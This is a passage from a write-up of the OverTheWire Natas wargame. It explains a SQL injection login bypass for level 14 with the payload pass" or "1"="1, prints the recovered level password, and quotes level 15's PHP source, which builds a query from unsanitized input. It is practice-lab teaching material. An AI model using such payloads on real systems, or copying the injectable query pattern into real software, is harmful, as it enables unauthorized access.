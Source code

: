 ```markup
<input type="submit" value="Login" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

```text
SELECT * from users where username="username_input" and password="password_input"
```

so if we input

```text
natas14
pass" or "1"="1
```

it will look like this.

```text
SELECT * from users where username="natas14" or and password="pass" or "1"="1"
```

Since the or is always true \( 1 = 1\) the password doesnt need to be correct.

```text
AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

### Natas15

```markup
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
<body>
<h1>natas15</h1>
<div id="content">
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
```